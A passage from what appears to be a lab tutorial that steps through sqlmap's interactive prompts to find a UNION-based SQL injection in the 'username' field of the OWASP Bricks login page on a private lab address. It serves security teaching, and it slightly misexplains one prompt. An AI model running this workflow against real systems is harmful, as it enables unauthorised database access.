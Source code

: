 ```
POST http://172.17.11.211/owaspbricks/login-1/index.php
POST data: username=&passwd=&submit=Submit
do you want to test this form? [Y/n/q] 
> 
```
- Hit **Enter**

Next you will be presented with:

```
Edit POST data [default: username=&passwd=&submit=Submit] (Warning: blank fields detected): 
do you want to fill blank fields with random values? [Y/n] 
```

This is asking if we'd like to test the blank fields with random values. 
- Hit **Enter**

Next you will be asked:

```
[INFO] testing for SQL injection on POST parameter 'username'
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
```

Running tests like these will cause a lot of traffic and potetentially alert the security team to what we are doing. We're going to hit the `Enter` button, to maintain a lower risk level.
- Hit **Enter**

Next you will be asked:

```
[INFO] target URL appears to have 8 columns in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] 
```

This is asking us if want to find UNION column types. Hit **Enter** to accept. 
- Hit **Enter**

Next you will be asked:

```
[INFO] target URL appears to be UNION injectable with 8 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] 
```

Now that it's found the the UNION column, it's asking us if we'd like to try using random integers for injection. Hit **Enter** to accept.


Next we will be asked:

```
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 413 HTTP(s) requests:
```

SQLmap found one username we can test **username**. SQLmap wants to know if it should keep trying other names. Explain that we're going to to hit **Enter** to test as many names as possible. 
- Hit **Enter**
